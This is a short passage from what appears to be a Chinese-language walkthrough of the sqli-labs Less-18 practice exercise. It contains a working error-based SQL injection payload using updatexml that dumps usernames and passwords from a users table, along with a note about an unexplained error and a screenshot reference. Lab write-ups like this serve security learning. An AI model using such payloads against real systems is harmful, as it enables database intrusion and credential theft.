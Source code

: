 爆列名会出现错误，不知道什么原因



+ 爆数据

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) and '1'='1
~~~

![Less-18_18](./img/Less-18_18.PNG)
